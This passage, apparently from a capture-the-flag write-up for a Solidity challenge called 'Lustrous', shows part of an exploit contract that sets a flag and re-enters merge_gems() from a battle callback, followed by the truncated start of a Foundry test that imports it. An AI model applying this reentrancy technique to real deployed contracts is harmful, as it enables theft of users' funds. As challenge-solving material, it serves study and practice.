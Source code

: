 ```solidity
        require(gem.health - (int256(10000) / gem.hardness) < 64, "gem wont become inactive after one attack from 1st lunarian");
    }

    function setAnswer(uint8[] memory _ans) public {
        ans = _ans;
    }

    function get_actions() public view returns (uint8[] memory) {
        return ans;
    }

    function get_gem_id(address master_addr, uint32 sequence) public pure returns (bytes32) {
        bytes20 master_addr_bytes = bytes20(master_addr);
        bytes4 sequence_bytes = bytes4(sequence);
        bytes32 gem_id = keccak256(abi.encodePacked(master_addr_bytes, sequence_bytes));
        return gem_id;
    }

    function decide_continue_battle(uint256 round, int256 lunarian_health) public returns (bool) {
        // check gem
        // lustrous.gems(get_gem_id(address(this), lustrous.sequences(address(this)) - 2));
        // lustrous.gems(get_gem_id(address(this), lustrous.sequences(address(this)) - 1));
        if (reenter) {
            reenter = false;
            lustrous.merge_gems();
        }
    }

    function buy_gem() public {
        lustrous.create_gem{value: 1 ether}();
    }

    function assign_gem(uint32 sequence) public {
        lustrous.assign_gem(sequence);
    }

    function setReenter() public {
        reenter = true;
    }

    fallback() external payable {}
}
```

### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import "../../lib/utils/VyperDeployer.sol";
import "forge-std/Test.sol";
import "../ILustrous.sol";
import "../Exploit.sol";

contract lustrousTest is Test {
    VyperDeployer vyperDeployer = new VyperDeployer();
    ILustrous lustrous;

    function setUp() public {
        vm.roll(4);

```